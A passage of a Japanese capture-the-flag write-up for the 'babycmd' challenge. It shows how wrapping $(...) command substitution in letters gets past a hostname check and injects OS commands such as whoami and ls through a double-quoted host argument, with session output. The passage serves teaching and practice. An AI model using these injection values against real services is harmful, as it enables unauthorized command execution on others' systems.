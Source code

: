 pingの出力結果に含まれる**% Packet**が、フォーマット文字列の*%p*として解釈され、アドレスが表示されていることがわかりました。format string attack(後述)として攻められるような感じがしましたが、他の人が取り組んでいるようなので違う方法でアプローチをしていくことにしました。

digとhostに文字列を渡した時の括りがそれぞれ違うことに注目しました。digではシングルクオートで、hostではダブルクオートでくくって引数を渡しています。
シェル上では、ダブルクオートの文字列の中で変数を展開できます。`echo "$SHELL"`とすると*/bin/bash*と出力されるのがいい例です。今回の問題の場合は、`host $SHELL`として標準入力から渡すと、`host "/bin/bash"`として実行されると考えられます。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host $PWD
Invalid hostname.
Commands: ping, dig, host, exit
:
```
しかしながら、試しに`host $PWD`として打ってみたところ、引数チェックで引っかかり、*popen*で実行されませんでした。

逆コンパイルの結果、引数チェックでは最初と最後の文字が数字もしくはアルファベットでない場合にエラーとして実行させないようにしていることがわかったので、`host A${PWD}A`として実行してみました。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host $PWD
Invalid hostname.
Commands: ping, dig, host, exit
: host A${PWD}A
Host A/A not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
:
```

変数展開されていることが確認できました。/ディレクトリがカレントディレクトリのようです。

## 攻撃手法：OSコマンド インジェクション
これができることがわかると、次に挑戦したくなるのは変数中のコマンド展開によるOSコマンド インジェクションです。
コマンド展開とは、ダブルクオート中に変数を展開するのと同じ要領で、*$(コマンド)*としてコマンドを実行し、文字列中にコマンドの出力を展開するものです。例として、`echo "$(uname)"`とすると*Linux*と返ってきます。これを用いて実行中のユーザーを確認します。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host A$(whoami)A
Host AbabycmdA not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
:
```

babycmdユーザーとして実行されていることがわかりました。
そこで、ホームディレクトリ内のファイル一覧を取得してみることにしました。

```
Welcome to another Baby's First Challenge!
Commands: ping, dig, host, exit
: host A$(ls /home/babycmd)A
sh: 1: ls/home/babycmd: not found
Host AA not found: 3(NXDOMAIN)
Commands: ping, dig, host, exit
:
```
